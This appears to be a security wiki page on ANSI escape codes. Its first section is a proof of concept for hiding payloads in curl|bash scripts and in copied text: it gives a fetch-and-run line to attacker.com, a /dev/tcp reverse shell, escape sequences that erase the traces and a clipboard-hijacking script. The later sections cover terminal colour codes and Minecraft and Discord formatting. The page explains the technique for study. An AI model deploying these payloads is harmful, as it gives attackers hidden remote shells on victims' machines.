

# ANSI Escape Codes

## Hiding Payloads

### `curl | bash` manual review

A common installation method is a combination of `curl` from a URL that hosts an install script, and `bash` which will execute it. Out of caution, one might first run the `curl` part first to review the script manually before running it. While this helps, it is not foolproof, and using a simple carriage return (`\r`) character a malicious actor can hide extra commands that won't be visible.

Take the example below, where `id` is the 'payload' we want our victim to unknowingly execute. Two things are important here:&#x20;

1. The command after our payload must be longer than the payload to overwrite/hide it fully
2. A `#` character is needed as a comment and prevent errors


```bash
echo 1
id #
echo 2
```


If we store it in a file, we can hide the `id` command by replacing the newline with a carriage return

```shell-session
$ sed -i -z 's/#\n/#\r/g' script.sh
```

If we now host and request this URL, it will look benign, but when executing it the `id` fires:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ curl https://attacker.com/script.sh  # Looks safe
</strong>echo 1
echo 2
<strong>$ curl -s localhost:8000/script.sh | sh  # Payload triggers
</strong>1
uid=1001(user) gid=1001(user) groups=1001(user)
</code></pre>

### Copy-Paste commands

Another common action is copy-pasting commands from websites into your terminal. This has similar risks, and most terminals implement some warning to preview the multiple lines you are about to paste into it. A problem however is that it **cannot display all lines** and by adding lots of whitespace the user is required to manually scroll down to the hidden payload:

<figure><figcaption><p>Windows Terminal warning on multiline-paste</p></figcaption></figure>

If we just write some payload like a reverse shell at the end, there is a good chance the victim won't notice. After pasting it, however, it is very obvious that something malicious happened because the whole command history is right in front of them. And that's where [trick 2](https://en.wikipedia.org/wiki/ANSI_escape_code#CSI_\(Control_Sequence_Introducer\)_sequences) comes in!

* `\x1b[8A`: Move the cursor 8 lines up
* `\x1b[J`: Clear from the cursor to the end of the screen

These are two escape sequences that can be combined to reverse the cursor back to where the victim would expect, and then clear the payload commands quickly so the user might not ever notice they have been hit.&#x20;

In practice, you'll want to run the reverse shell in the background of course, and quickly so there is a minimal delay from triggering the payload. This can easily be accomplished by using `&` and `disown` to remove it from the list of background jobs. The server will host a larger payload as we try to keep the pasted text to a minimum:

<pre class="language-bash" data-title="Payload"><code class="lang-bash">echo some very long command nobody would want to type out
echo im sure nothing will happen if I just manually copy it


<strong> curl -s attacker.com|sh&#x26;disown
</strong> echo -e '\x1b[8A\x1b[J'

</code></pre>

If you notice above   spaces were added before the payload commands to also hide them from history (if the user were to press UP). Then the server will need to host a slightly special kind of reverse shell using `script` if you want it to be interactive:

```bash
bash -c "script -c 'bash -i' /dev/null </dev/tcp/attacker.com/1337 >&0 2>&1"
```

In order to cleanly deliver such a payload from a website, the [copy event](https://developer.mozilla.org/en-US/docs/Web/API/Element/copy_event) can be used to overwrite anything the user copies:

<pre class="language-html"><code class="lang-html">&#x3C;script>
  const PAYLOAD = `${"\n".repeat(6)}
<strong> curl -s attacker.com|sh&#x26;disown
</strong> echo -e '\\x1b[9A\\x1b[J'
`;

  document.addEventListener("copy", function (e) {
    var text = window.getSelection().toString();
    // Add payload to all copied strings
    e.clipboardData.setData("text/plain", text + PAYLOAD);
    e.preventDefault();
  });
&#x3C;/script>
</code></pre>

<figure><figcaption><p>Proof of Concept in action causing an invisible reverse shell</p></figcaption></figure>

## Terminal Colors

Terminals use so-called "ASNI escape sequences" to format text, including colors. They are special sequences of characters that when printed, will alter the text that comes after it.&#x20;

These codes always start with an ESC character, `\x1b` in ASCII. Then for **colors**, you use a `[`, followed by some special code, and finally an `m` character. This special code in between determines what color is displayed.

* `30`-`37` (normal) & `90`-`97` (bright): Foreground color
* `40`-`47` (normal) & `100`-`107` (bright): Background color
* `0`: Reset

See the following table for a list of all these colors:


3-bit and 4-bit color codes


To use a color like this, put it in the ESC code syntax with the correct number. You can also provide a foreground number as well as a background number, by separating them with a `;` semicolon (order doesn't matter). Here are a few examples:

*  (2) (1).png>): `\x1b[31mRed` (31 = Foreground red)
*  (1) (1) (1).png>): `\x1b[44mBlue` (44 = Background blue)
* .png>): `\x1b[42;30mGreen` (42 = Background green, 30 = Foreground black)
* .png>): `\x1b[31mred \x1b[0mreset` (0 = Reset)

As seen in the .png>)example, you can specify multiple color codes and it will switch as soon as the color code happens.&#x20;

### Programming

To use these color codes in any program or script, you just have to print the right characters to the terminal. One difficulty might be the unreadable ESC character, previously represented as `\x1b`. This character cannot be typed with a keyboard like normal characters and must be scaped in Hex, Unicode, or whatever your language best supports.&#x20;


```shell-session
$ echo -e '\x1b[31mRed\x1b[0m'
```



```python
print("\x1b[31mRed\x1b[0m")
```



**Tip**: If you want to use colors in Python, use the [colorama](https://pypi.org/project/colorama/) library. It provides clear names for each color to make the code much more readable.&#x20;


## Other Implementations

### Minecraft

 (2) (1).png>)   [https://minecraft.fandom.com/wiki/Formatting\_codes](https://minecraft.fandom.com/wiki/Formatting_codes)

#### Normal text

In the chat, color codes are created using the `§` paragraph sign, followed by a number/letter. In the colors above, you can see that bright red is the letter `c` for example. This means that if you want a red message with this color, you need to prefix it with `§c` similar to ANSI escape codes. So `§cred` would produce red text saying "red".

`§r` is useful for resetting the color back to normal after some colored text.&#x20;

#### Unicode escape

For JSON text like server's MOTDs, you need to escape the [`§`](https://www.fileformat.info/info/unicode/char/00a7/index.htm) paragraph sign with Unicode, like `\u00a7`. Then you can use the color numbers/letters again, so `\u00a7cred` would produce red text saying "red".&#x20;

### Discord

[**A guide to ANSI on Discord**](https://gist.github.com/kkrypt0nn/a02506f3712ff2d1c8ca7c9e0aed7c06#a-guide-to-ansi-on-discord)

The page above explains how to use the `ansi` code highlighting in Discord in great detail. One thing you should know is that discord **does not** support bright color variations (`90`-`97`, `100`-`107`). These color codes will show up white instead.

If you want to get a better conversion from real terminal output to discord you can use the following function that normalizes the colors into the 30's and 40's which it does support:


````bash
alias discord='sed '"'"'s/\x1b\[9\([0-7]\)m/\x1b\[3\1m/g'"'"' | sed '"'"'s/\x1b\[10\([0-7]\)m/\x1b\[4\1m/g'"'"' | (echo '"'"'```ansi'"'"'; cat; echo '"'"'```'"'"') | xclip'
````


_Tip: use `clip.exe` on WSL_. Then you can pipe anything with colored output to `| discord`:

```shell-session
$ ll --color=always | discord
```
